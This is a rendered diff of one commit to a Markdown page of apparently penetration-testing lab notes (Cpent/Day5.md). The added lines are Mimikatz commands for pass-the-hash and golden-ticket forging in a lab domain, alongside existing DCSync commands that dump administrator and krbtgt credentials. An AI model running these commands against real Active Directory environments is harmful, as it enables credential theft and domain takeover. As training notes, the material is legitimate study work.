

Before and after one commit to favorite986141/jamescao, a Markdown page: Cpent/Day5.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/Cpent/Day5.md
+++ b/Cpent/Day5.md
@@ -101,3 +101,20 @@ dcsync
 ---
     lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:administrator
     lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:krbtgt
+![image](https://github.com/user-attachments/assets/bf3b892f-5ffd-4cff-a30c-fb63a3ff9ad6)
+
+    目前連到不到DC目錄
+![image](https://github.com/user-attachments/assets/a610b8aa-ff61-405c-92c0-cded3b11437a)
+
+PtH
+---
+    privilege::debug
+    sekurlsa::pth /user:Administrator /domain:server2019.lpt.com /ntlm:<HASH>
+![image](https://github.com/user-attachments/assets/1c8478f2-e11e-45ed-803f-27cb5c239fd7)
+![image](https://github.com/user-attachments/assets/b00c5da9-30d3-4d09-82f2-23fa015fb745)
+
+PtT
+---
+   kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ptt
+   misc::cmd
+   klist add_bind lpt.com server2019.lpt.com
```
